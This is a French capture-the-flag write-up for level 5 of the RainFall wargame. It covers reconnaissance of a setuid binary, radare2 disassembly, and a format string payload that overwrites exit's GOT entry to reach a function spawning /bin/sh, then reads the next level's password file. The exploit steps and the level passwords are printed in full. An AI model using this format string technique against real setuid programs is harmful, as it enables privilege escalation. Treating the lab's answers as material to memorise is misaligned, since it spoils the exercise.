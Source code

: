 # LEVEL 5

### Reconnaissance

On se connecte au level5 avec le password : 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a

On trouve un binaire 

```
level5@192.168.56.102's password: 
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)                                                                          
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE                                             
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5 
level5@RainFall:~$ ls
level5
level5@RainFall:~$ file level5
level5: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xed1835fb7b09db7da4238a6fa717ad9fd835ae92, not stripped
level5@RainFall:~$ (python -c 'print "AAAA" + "%x " * 20' )|./level5 
AAAA200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 a
```

On le télécharge pour l'analysé avec r2 mais on sait déjà que c'est une vulnérabilité format string.
```
[...]
[0x080483f0]> pdf@sym.n
[...]
|           0x080484e5      e8b6feffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x080484ea      8d85f8fdffff   lea eax, dword [format]
│           0x080484f0      890424         mov dword [esp], eax        ; const char *format
│           0x080484f3      e888feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x080484f8      c70424010000.  mov dword [esp], 1          ; int status
└           0x080484ff      e8ccfeffff     call sym.imp.exit           ; void exit(int status)

```

Effectivement, on voit l'appel a fgets puis a printf. Le code prend un paramètre et l'affiche, rien d'autre.
En regardant bien, on a une autre fonction:

```
$ nm level5 |grep T
[...]
08048504 T main
080484c2 T n
080484a4 T o
[...]
```

On regarde avec r2:
```
[0x080483f0]> pdf@sym.o
┌ 30: sym.o ();
│           0x080484a4      55             push ebp
│           0x080484a5      89e5           mov ebp, esp
│           0x080484a7      83ec18         sub esp, 0x18
│           0x080484aa      c70424f08504.  mov dword [esp], str.bin_sh ; [0x80485f0:4]=0x6e69622f ; "/bin/sh" ; const char *string
│           0x080484b1      e8fafeffff     call sym.imp.system         ; int system(const char *string)
│           0x080484b6      c70424010000.  mov dword [esp], 1          ; int status
└           0x080484bd      e8cefeffff     call sym.imp._exit          ; void _exit(int status)
```

On va donc détourné le comportement du programme pour appelé cette fonction.
Le problème par rapport aux level précédent c'est la fonction exit après printf. Le programme quittera avant l'aller voir ce qu'on a pu écrire sur l'EIP.
Il faut donc ecrire sur la fonction exit, allons chercher son adresse:

```
$ objdumpt -d level5
[...]
080483d0 <exit@plt>:
 80483d0:       ff 25 38 98 04 08       jmp    *0x8049838
 80483d6:       68 28 00 00 00          push   $0x28
 80483db:       e9 90 ff ff ff          jmp    8048370 <_init+0x3c>
[...]
```

### Exploitation

Il nous faut:
```
L'adresse de o : 0x080484a4
L'adresse de exit : 0x08049838 (En réalité c'est 080483d0 mais il fait appel a un jmp a 0x8049838)
La position ou ecrire sur la stack : 4

On a pu récupéré ces 3 elements lors de la reconnaissance
```

On converti l'adresse de exit:
```
Python 2.7.18 (default, Apr 20 2020, 20:30:41) 
[GCC 9.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> p32(0x08049838)
'8\x98\x04\x08'
```

On récupére la valeur décimal de o:
```
>>> 0x080484a4
134513828
```

Maintenant on peux préparé notre payload:
```
[ADDRESSE DE EXIT]%[VALEUR DE o - 4 bytes]d%4$n

[8\x98\x04\x08][%134513824d%4$n]
```

Et le lancer:
```
level5@RainFall:~$ (python -c 'print "8\x98\x04\x08" + "%134513824d%4$n"'; cat)|./level5
[...]
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
whoami
level6
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
```

Enjoy :)
